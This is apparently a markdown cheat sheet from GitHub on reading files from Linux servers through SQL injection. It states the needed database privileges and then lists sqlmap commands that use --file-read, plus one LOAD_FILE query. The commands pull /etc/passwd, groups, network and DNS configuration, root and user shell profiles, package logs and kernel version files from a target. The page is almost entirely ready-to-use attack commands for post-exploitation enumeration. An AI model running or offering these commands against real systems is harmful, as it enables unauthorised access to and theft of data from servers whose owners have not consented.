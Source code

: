# Linux

## Conditions

1. The DB user must have **FILE** and **SELECT** privileges perform with the flags `--privileges -U CU`.
2. **Note:** Not all files are readable unless the current user is `root@<IP>` (e.g. `root@localhost`). You'll notice that you can't fetch SSH credentials which is normal due to security reasons.

## Automated

- Enumerating user accounts

```
$ sqlmap -u <URL> --random-agent --file-read="/etc/passwd"

$ sqlmap -u <URL> --random-agent --sql-query="SELECT LOAD_FILE('/etc/passwd')"
```

- Enumerate user groups

```
$ sqlmap -u <URL> --random-agent --file-read="/etc/group"
```

- Local IPv4 address

```
$ sqlmap -u <URL> --random-agent --file-read="/etc/network/interfaces"

$ sqlmap -u <URL> --random-agent --file-read="/etc/sysconfig/network"

$ sqlmap -u <URL> --random-agent --file-read="/etc/networks"
```

- DNS resolve and nameserver IPs

```
$ sqlmap -u <URL> --random-agent --file-read="/etc/resolv.conf"

$ sqlmap -u <URL> --random-agent --file-read="/etc/hosts"
```

- Environment variables may contain **sensitive information**. You never know that sometimes the sysadmins can be lazy sometimes.

```
$ sqlmap -u <URL> --random-agent --file-read="/etc/profile"

$ sqlmap -u <URL> --random-agent --file-read="/etc/bash.bashrc"

$ sqlmap -u <URL> --random-agent --file-read="/home/<username>/.bash_profile"

$ sqlmap -u <URL> --random-agent --file-read="/root/.bash_profile"

$ sqlmap -u <URL> --random-agent --file-read="/home/<username>/.bashrc"

$ sqlmap -u <URL> --random-agent --file-read="/root/.bashrc"
```

- Enumerate installed packages that will give you an idea of what services are installed.

```
$ sqlmap -u <URL> --random-agent --file-read="/var/log/dpkg.log"

$ sqlmap -u <URL> --random-agent --file-read="/var/log/yum.log"
```

- Enumerate Linux kernel

```
$ sqlmap -u <URL> --random-agent --file-read="/etc/lsb-release"

$ sqlmap -u <URL> --random-agent --file-read="/etc/os-release"

$ sqlmap -u <URL> --random-agent --file-read="/proc/version"
```